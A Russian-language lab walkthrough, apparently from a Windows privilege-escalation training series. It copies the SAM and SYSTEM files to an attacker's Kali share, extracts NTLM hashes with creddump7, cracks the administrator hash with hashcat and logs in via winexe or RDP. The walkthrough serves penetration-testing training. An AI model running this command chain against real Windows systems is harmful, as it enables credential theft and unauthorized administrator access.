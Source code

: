 # 🐾 11. Файлы SAM и SYSTEM - Извлечение хешей паролей
---
## 📜 Описание задания
В этом задании мы будем извлекать хеши паролей пользователей из файлов SAM и SYSTEM. Эти файлы часто используются для хранения паролей в Windows. На целевой машине эти файлы хранятся в директории `C:\Windows\Repair\` в небезопасном виде. Мы перенесем эти файлы на Kali и с помощью утилиты creddump7 извлечем хеши паролей. Затем с помощью инструмента hashcat попытаемся взломать хеш пароля администратора.

---
## 🔍 Шаг 1: Копирование файлов SAM и SYSTEM на Kali
Сначала скопируем файлы SAM и SYSTEM с целевой машины в вашу Kali. Выполните следующие команды:
`copy C:\Windows\Repair\SAM \\lhost\kali\`
`copy C:\Windows\Repair\SYSTEM \\lhost\kali\`

### 📋 Ожидаемый вывод
- Убедитесь, что файлы успешно скопированы на вашу Kali машину.

## 🔑 Шаг 2: Клонирование репозитория creddump7 и установка зависимостей
Затем клонируем репозиторий creddump7 и устанавливаем необходимые зависимости. Выполните следующие команды на Kali:
`git clone https://github.com/Tib3rius/creddump7`
`pip3 install pycrypto`

### 📋 Ожидаемый вывод
- Убедитесь, что репозиторий был успешно клонирован, а зависимости установлены.

## 📝 Шаг 3: Извлечение хешей паролей из файлов SAM и SYSTEM
Теперь используем утилиту creddump7 для извлечения хешей паролей из файлов SYSTEM и SAM. Выполните следующую команду:
`python3 creddump7/pwdump.py SYSTEM SAM`

### 📋 Ожидаемый вывод
- Убедитесь, что хеши паролей были успешно извлечены из файлов SAM и SYSTEM.
![image](https://github.com/user-attachments/assets/569ce36a-7b7b-4e1d-a78c-09d781a7122b)

## 🎯 Шаг 4: Взлом хеша пароля администратора с помощью hashcat
Теперь используем hashcat для взлома хеша пароля администратора. Выполните следующую команду (не забудьте заменить `<hash>` на хеш пароля администратора):
`hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`

### 📋 Ожидаемый вывод
- Убедитесь, что hashcat успешно взломал хеш пароля администратора.
![image](https://github.com/user-attachments/assets/06e9f9a4-8197-47a1-b5cc-4a2c0915d1bb)

## 📝 Шаг 5: Вход с использованием найденного пароля
Теперь, когда у нас есть взломанный пароль, используем его для входа в систему с привилегиями администратора. Можно использовать winexe или RDP:
- Для winexe: `winexe -U 'admin%<password>' //rhost cmd.exe`
- Для RDP: используйте найденный пароль для входа через RDP.

### 📋 Ожидаемый вывод
- Убедитесь, что вы смогли войти в систему с привилегиями администратора, используя найденный пароль.

## 🎉 Поздравления!
Вы успешно извлекли хеши паролей из файлов SAM и SYSTEM, взломали их и использовали для входа в систему с привилегиями администратора! 🎊

## 📌 Примечания
- Если у вас возникли проблемы с использованием старой версии creddump7, всегда обновляйте репозиторий с GitHub.
- Используйте полученные знания ответственно и только в рамках разрешенных тестов на проникновение.
